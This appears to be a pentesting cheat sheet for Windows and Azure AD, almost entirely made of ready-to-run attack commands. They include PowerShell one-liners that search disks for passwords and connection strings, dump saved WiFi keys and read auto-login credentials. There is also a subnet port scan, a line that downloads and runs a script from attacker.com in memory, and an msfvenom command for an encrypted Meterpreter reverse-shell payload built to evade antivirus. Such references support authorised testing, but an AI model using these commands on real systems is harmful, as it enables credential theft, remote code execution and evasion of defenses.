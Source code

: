 ### Executables Commonly Not Flagged by AV
```
%windir%\sysnative\lsass.exe
%windir%\sysnative\svchost.exe
%windir%\sysnative\net.exe
%windir%\sysnative\werfault.exe
%windir%\sysnative\mstsc.exe
```
### PowerShell Pentesting Commands
```powershell
# Find files containing the word password
gci c:\ -Include *.txt,*.xml,*.config,*.conf,*.cfg,*.ini -File -Recurse -EA SilentlyContinue | Select-String -Pattern "password"

# Find files containing database connection strings
gci c:\ -Include *.config,*.conf,*.xml -File -Recurse -EA SilentlyContinue | Select-String -Pattern "connectionString"

# Find web server configuration files
gci c:\ -Include web.config,applicationHost.config,php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -EA SilentlyContinue

# Extract WiFi passwords
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize

# Get auto-login credentials
gp 'HKLM:\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon' | select "Default*"

# Check if AlwaysInstallElevated in enabled
gp 'HKCU:\Software\Policies\Microsoft\Windows\Installer' -Name AlwaysInstallElevated
gp 'HKLM:\Software\Policies\Microsoft\Windows\Installer' -Name AlwaysInstallElevated

# Single-port port scan
$port = 22
$net = "10.10.0."
0..255 | foreach { echo ((new-object Net.Sockets.TcpClient).Connect($net+$_,$port)) "Port $port is open on $net$_"} 2>$null

# Download and execute PowerShell script in memory
iex(iwr("https://attacker.com/evil.ps1"))

# Get all Antivirus products installed
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntiVirusProduct
```
### Encrypted/Encoded Msfvenom Payload
```
LHOST=10.1.1.10 LPORT=4444 msfvenom -p windows/x64/meterpreter_reverse_https --encrypt aes --encode x86/shikata_ga_nai -f exe -o payload.exe
```
### Azure AD Reconnaissance with [ADDInternals](https://github.com/Gerenios/AADInternals)
```powershell
# check if domain is accepting mail to Exchance Online (EXO)
Resolve-DnsName -Name <domain> -Type MX

# check if domain is sending mail from EXO
Resolve-DnsName -Name <domain> -Type TXT

# check both things with this one command
```